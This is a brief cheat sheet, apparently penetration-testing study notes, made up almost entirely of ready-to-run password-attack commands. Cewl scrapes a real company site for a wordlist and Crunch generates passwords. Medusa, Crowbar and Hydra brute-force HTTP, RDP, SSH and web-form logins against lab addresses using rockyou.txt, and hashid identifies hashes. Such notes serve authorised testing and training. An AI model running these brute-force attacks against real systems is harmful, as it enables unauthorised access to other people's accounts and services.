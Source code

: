 ### Cewl
```
cewl https://www.tesla.cn -v -a -m 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
